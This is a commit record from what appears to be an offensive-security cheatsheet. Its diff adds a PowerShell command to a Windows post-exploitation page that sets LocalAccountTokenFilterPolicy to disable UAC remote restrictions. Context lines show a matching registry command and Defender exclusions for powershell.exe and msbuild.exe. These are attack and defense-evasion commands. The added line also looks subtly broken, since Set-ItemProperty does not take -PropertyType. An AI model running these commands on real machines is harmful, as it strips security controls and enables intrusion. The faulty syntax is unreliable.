

Before and after one commit to TheProtyro/protyro-cheatsheet, an MkDocs documentation site: the page built from docs/Post-Exploitation/Privilege Escalation/Windows.md, in a window 1280 px wide and 900 px high, scrolled down 5955 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add how to disable UAC remote restrictions in PowerShell

````diff
--- a/docs/Post-Exploitation/Privilege Escalation/Windows.md
+++ b/docs/Post-Exploitation/Privilege Escalation/Windows.md
@@ -325,6 +325,10 @@ Set-MpPreference -ExclusionProcess "legit.txt","powershell.exe","msbuild.exe"
 reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
 ```
 
+```
+Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -Force
+```
+
 #### Enable RDP from CLI
 
 - https://support.moonpoint.com/os/windows/software/remote-control/rdp/rdp-registry.php
````
